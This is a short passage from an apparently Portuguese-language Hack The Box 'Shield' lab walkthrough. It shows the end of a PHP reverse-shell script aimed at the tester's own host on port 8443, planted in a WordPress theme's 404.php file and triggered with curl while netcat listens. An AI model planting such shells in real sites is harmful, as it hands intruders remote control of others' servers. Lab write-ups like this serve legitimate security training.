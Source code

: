 ```php

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.15.185', 8443);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';

```
<img src="/img/htb/htb-shield-6.png">

Ao clicar em `Update File`, nós salvamos a alteração. Precisamos setar um `netcat`, na porta escolhida, no meu caso 8443 e em seguida fazer um curl para o endereço da página `404.php`.

Por padrão, o Wordpress salva seus recursos de tema em `wp-content/<nome do tema>/404.php`.

```bash
┌──(hastur㉿hastur)-[~/Shield]
└─$ curl 10.10.10.29/wordpress/wp-content/themes/gutenbooster/404.php
```

E conseguimos o shell.
